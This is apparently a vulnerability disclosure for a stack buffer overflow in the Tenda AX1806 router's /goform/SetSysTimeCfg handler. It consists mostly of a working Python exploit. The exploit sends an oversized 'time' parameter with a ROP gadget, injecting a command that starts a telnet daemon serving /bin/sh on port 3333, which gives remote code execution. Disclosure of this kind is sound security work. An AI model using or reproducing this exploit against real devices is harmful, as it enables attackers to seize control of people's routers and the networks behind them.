

Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html


There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v6` variable is directly retrieved from the http request parameter `time`.

Then `v6` will be splice to stack by function sscanf without any security check,which causes stack overflow.



So by POSTing the page `/goform/SetSysTimeCfg` with proper `time`, the attacker can easily perform a **Remote Code Execution** or **Deny of Service(DoS)** with carefully crafted overflow data.

# Exp 

Remote Code Exection

```python
# Title: Exploit of Tenda-AX3's buffer overflow 
# Author: R1nd0&c0rn
# Date: 2022
# Vendor Homepage: https://www.tenda.com.cn/
# Version: AX1806 v1.0.0.1

import requests
from pwn import *

gadget = 0x37208

url = "https://192.168.2.1/goform/SetSysTimeCfg"

timeType = "manual"

time = b"2022-01-01 "

time += b"a" * 0x380 
time += b"bbbb"
time += b";"
time += b"/usr/sbin/utelnetd -l /bin/sh -p 3333"# command
time += b":"
time += b"c" * 0x374 + p32(gadget)

r = requests.post(url, data={'timeType': timeType, 'time': time},verify=False)
print(r.content)
```


